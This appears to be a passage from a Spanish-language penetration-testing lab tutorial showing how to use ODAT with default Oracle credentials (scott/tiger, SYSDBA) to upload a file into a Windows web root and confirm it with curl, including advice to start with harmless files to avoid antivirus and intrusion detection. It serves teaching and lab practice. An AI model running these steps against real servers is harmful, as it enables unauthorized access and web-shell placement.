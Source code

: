 ```sql
...SNIP...
```

Otra opción es cargar un archivo web al objetivo. Sin embargo, esto requiere que el servidor ejecute un servidor web y que conozcamos la ubicación exacta del directorio raíz del servidor web. Si sabemos qué tipo de sistema estamos tratando, podemos intentar las rutas predeterminadas:

| OS      | Ruta               |
| ------- | ------------------ |
| Linux   | /var/www/html      |
| Windows | C:\inetpub\wwwroot |

Primero, es importante probar nuestro enfoque de explotación con archivos que no parezcan peligrosos para los sistemas de antivirus o detección/prevención de intrusiones. Por lo tanto, creamos un archivo de texto con una cadena y lo usamos para cargarlo en el sistema de destino.

### Oracle RDBMS-Subir archivo

```bash
echo "Oracle File Upload Test" > testing.txt
```

**Cargar el Archivo Usando ODAT**

```bash
./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```

El comando anterior carga el archivo `testing.txt` desde tu máquina local al directorio `C:\inetpub\wwwroot` en el servidor `10.129.204.235`.

**Verificar la Carga del Archivo**

Finalmente, podemos probar si el enfoque de carga de archivos funcionó usando `curl`. Utiliza una solicitud GET HTTP para comprobar si el archivo está disponible, o puedes visitarlo a través de un navegador.

```bash
curl -X GET http://10.129.204.235/testing.txt
```

**Resultado Esperado**

```arduino
Oracle File Upload Test
```

